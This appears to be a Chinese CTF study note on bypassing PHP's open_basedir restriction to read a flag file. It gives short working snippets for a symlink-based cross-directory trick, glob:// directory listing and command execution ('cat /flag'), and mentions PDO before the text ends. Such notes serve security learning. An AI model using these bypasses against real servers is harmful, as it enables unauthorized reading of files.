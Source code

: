 - [Open_basedir绕过](https://www.cnblogs.com/LLeaves/p/13210005.html)
- [PHP绕过open_basedir列目录的研究](https://blog.csdn.net/weixin_33810302/article/details/87981560)
- [PHP绕过open_basedir限制操作文件的三种方法](https://www.jianshu.com/p/cf2cd07d02cf)

open_basedir是php.ini中的一个配置选项，它可将用户访问文件的活动范围限制在指定的区域
>Warning: include(): open_basedir restriction in effect. File(/flag36.txt) is not within the allowed path(s):
##### 命令执行函数
open_basedir对命令执行函数是无效的，例如：`system("cat /flag");`。但命令执行函数一般都会被限制在disable_function当中，所以我们需要寻找其他的途径来绕过限制  
##### symlink()函数
symlink函数将建立一个指向target的名为link的符号链接，当然一般情况下这个target是受限于open_basedir的。  
```php
bool symlink ( string $target , string $link )
```
在Linux环境下我们可以通过symlink完成一些逻辑上的绕过导致可以跨目录操作文件。   
```php
<?php
mkdir("c");
chdir("c");
mkdir("d");
chdir("d");
chdir("..");
chdir("..");
symlink("c/d","tmplink");
symlink("tmplink/../../1.txt","exploit");
unlink("tmplink");
mkdir("tmplink");
```
但是这个题禁用了`symlink()`函数  
>Warning: symlink() has been disabled for security reasons in
##### glob伪协议
glob伪协议是一个用来筛选目录的伪协议，由于它在筛选目录时是不受open_basedir的制约的，所以我们可以利用它来绕过限制  
使用方法：   
```php
<?php
$it = new DirectoryIterator("glob:///*");
foreach($it as $f) {
    printf($f->getFilename()." ");
}
exit();
```
#### PDO
- [使用PDO连接MySQL数据库并进行查询的详细步骤及代码示例](https://www.oryoy.com/news/shi-yong-pdo-lian-jie-mysql-shu-ju-ku-bing-jin-xing-cha-xun-de-xiang-xi-bu-zhou-ji-dai-ma-shi-li.html)
- [PHP：PDO连接数据库、查询数据](https://blog.csdn.net/weixin_43731793/article/details/100915662)

通过include_path限制了文件包含的路径，无法直接使用`include()`,使用PDO连接的方式读取flag     
PHP Data Objects (PDO) 是一个轻量级的、数据库无关的接口，它提供了一个数据访问抽象层，使得无论使用哪种数据库，代码都可以保持一致
>Warning: include(): Failed opening '/flag36.txt' for inclusion (include_path='.:/usr/local/lib/php') in
